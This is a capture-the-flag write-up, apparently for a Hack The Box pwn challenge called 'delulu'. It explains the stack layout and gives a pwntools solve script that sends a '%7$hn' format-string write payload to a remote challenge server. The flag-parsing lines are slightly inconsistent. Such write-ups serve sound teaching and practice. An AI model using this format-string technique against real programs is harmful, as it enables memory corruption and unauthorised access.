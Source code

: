 ```c
local_48 = 0x1337babe;
local_40 = &local_48;
```

### Exploit

According to [64-bit calling convention](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame) in linux, the first 6 arguments to any function are passed via registers and the rest are passed via the stack. So the 7th arg (index 6) to printf is the first stack value and the 8th arg (index 7) is the second stack value.

If you attach a debugger and look at the stack before the call to printf, you will see that the stack somewhat looks like that:

```
+----------+
| local_48 | <-- RSP
|----------|
| local_40 |
|----------|
|    ...   |
```

Basically:

- 7th arg [ index 6 ] = local_48

- 8th arg [ index 7 ] = local_40 *(pointer to local_48)*

So we can write to `local_48` by using `local_40`

Here's the solve script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./delulu")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("83.136.250.218", 39766)

    return r


def main():
    r = conn()

    # good luck pwning :)
    r.sendline('%{}d%7$hn'.format(0xbeef).encode())
    r.recvuntil(b'{')
    flag = r.recvuntil(b'}')[:-1].decode()
    r.recvuntil('HTB')
    print(f'FLAG: HTB{r.recvline().strip().decode()}\n')


if __name__ == "__main__":
    main()
```